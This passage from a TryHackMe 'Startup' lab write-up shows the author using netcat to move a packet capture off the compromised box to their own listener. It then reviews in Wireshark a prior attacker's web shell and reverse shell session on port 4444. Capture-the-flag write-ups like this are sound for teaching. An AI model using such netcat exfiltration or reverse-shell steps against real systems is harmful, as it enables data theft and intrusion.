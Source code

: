 As www-data we own a folder and a txt file. I checked the incidents folder and found a pcapng file, I used netcat to transfer the file to my machine so I could review in Wireshark.

On my machine:

```highlight
┌──[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 8080 > catch.pcapng
listening on [any] 8080 ...
```

Back on Startup:

```highlight
$ cd incidents
$ ls
suspicious.pcapng
$ nc [VPN IP] 8080 < suspicious.pcapng
```

Opening the file in Wireshark allows us to review the packet capture and review the captured incident.

![wireshark](/assets/images/startup/wireshark.png)

Scanning through it appears someone has completed the same steps I have by uploading a web shell and navigating to the directory via port 80 and executed the reverse shell. After the GET request I can see TCP packets on port 4444. Right click on one of the packets and select Follow > TCP Stream. This will show the entire TCP stream and all the commands and responses between the attacker and the server.

```highlight
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:40:21 up 20 min,  1 user,  load average: 0.00, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         17:21    1:09   0.54s  0.54s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
data
dev
etc
home
incidents
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
```